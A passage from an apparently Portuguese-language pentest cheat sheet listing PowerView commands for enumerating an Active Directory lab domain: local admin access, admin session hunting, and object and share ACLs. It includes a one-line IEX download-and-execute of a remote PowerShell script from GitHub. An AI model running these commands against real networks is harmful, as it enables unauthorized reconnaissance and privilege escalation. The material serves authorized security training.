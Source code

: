 ```
Get-NetFileServer -Verbose
```
##### DOMAIN - SOU LOCAL ADMIN EM ALGUMA MÁQUINA DO DOMINIO?
Find all machines on the currentdomain where the current user has local admin access.
```
Find-LocalAdminAccess -Verbose
Find-LocalAdminAccess -Domain tech.local
```
##### DOMAIN - SOU LOCAL ADMIN NESSA MÁQUINA? 
```
Invoke-CheckLocalAdminAccess
Invoke-CheckLocalAdminAccess -computername server01
```
```
IEX(New-Object System.Net.WebClient).DownloadString("https://github.com/n0ts0cial/oscp/raw/main/Find-WMILocalAdminAccess.ps1")
curl https://github.com/n0ts0cial/oscp/raw/main/Find-WMILocalAdminAccess.ps1 -Outfile Find-WMILocalAdminAccess.ps1
Import-Module .\Find-WMILocalAdminAccess.ps1
Find-WMILocalAdminAccess
```
##### DOMAIN - QUEM SÃO OS ADMINISTRADORES LOCAIS DE TODAS AS MÁQUINAS
```
Invoke-EnumerateLocalAdmin -Verbose
```
##### DOMAIN - ONDE O ADMINISTRADOR TEM SESSÃO LOGADO?
```
Invoke-UserHunter
Invoke-UserHunter -Stealth
```
##### DOMAIN - ONDE O ADMINISTRADOR TEM SESSÃO LOGADO? ***ONLY HIGH TRAFFIC SERVER
```
Invoke-UserHunter -CheckAccess
```

##### DOMAIN - ONDE MEMBROS DO GRUPO X TEM SESSÃO LOGADO?
```
Invoke-UserHunter -Groupname "GROUP-X"
```
##### DOMAIN - LIST OBJECT PERMISSIONS
```
Get-ObjectAcl
Get-ObjectAcl -Samaccountname buma -ResolveGUIDs
Get-ObjectAcl -Samaccountname buma -ResolveGUIDs | ft
Get-ObjectAcl 'CN=buma,CN=Users,DC=TECH,DC=LOCAL' -Verbose | ft
```
##### DOMAIN - LIST PATH PERMISSIONS / SHARE PERMISSION
```
$FormatEnumerationLimit=-1
Get-PathACL -Path "\\tech-dc01.tech.local\sysvol" | ft | Out-String -Width 4096
Get-PathACL -Path "\\tech-dc01.tech.local\sysvol" | select Path, IdentityReference, FileSystemRights | ft | Out-String -Width 4096
```

